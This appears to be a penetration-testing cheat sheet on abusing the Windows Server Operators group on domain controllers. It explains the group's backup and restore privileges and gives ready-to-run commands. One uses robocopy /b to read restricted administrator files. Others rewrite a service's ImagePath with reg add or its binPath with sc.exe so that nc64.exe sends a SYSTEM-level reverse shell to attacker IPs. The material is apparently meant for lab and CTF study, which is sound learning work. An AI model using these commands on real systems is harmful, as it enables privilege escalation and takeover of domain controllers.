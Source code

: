 # Server Operators

## Information

Server Operators exists only on DCs and are used for managing the DC as a whole, including service configurations and files. They can create and delete network shared resources, **start and stop services**, **back up and restore files**, and **change installed binaries** on the DCs. This group is considered a **service administrator** account because its members have physical access to DCs.

> Well-known SID/RID: `S-1-5-32-549`.

<table><thead><tr><th width="221">Privileges</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

### Accessing Files

<pre class="language-powershell"><code class="lang-powershell"><strong># copy "restricted" data
</strong><strong>robocopy /b C:\users\administrator\desktop C:\programdata\temp
</strong></code></pre>

For an example of the above method check [here](../../../boxes/insane/multimaster.md#sebackupprivilege).

### ImagePath

Member of this group has the ability to manage services. By modifying the `ImagePath` of a service we can gain `SYSTEM` level access.

{% code overflow="wrap" %}
```powershell
# change ImagePath
reg add "HKLM\System\CurrentControlSet\services\wuauserv" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\spool\drivers\color\nc64.exe -e powershell.exe 10.10.14.6 1337" /f
# confirm change
reg query "HKLM\System\CurrentControlSet\services\wuauserv"
# start service
Start-Service wuauserv
```
{% endcode %}

For an example of the above method check [here](../../../boxes/insane/multimaster.md#server-operators).

### binPath

Similar to [`ImagePath`](server-operators.md#imagepath), we can change the `binPath`.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong># change binPath
</strong><strong>sc.exe config browser binPath= "C:\programdata\nc64.exe -e cmd.exe 10.10.14.19 443"
</strong><strong># stop the service
</strong>sc.exe stop browser
# start the service
sc.exe start browser
</code></pre>

## Resources

{% tabs %}
{% tab title="First Tab" %}
{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators" %}
{% endtab %}

{% tab title="Exploitation" %}
{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}
{% endtab %}
{% endtabs %}
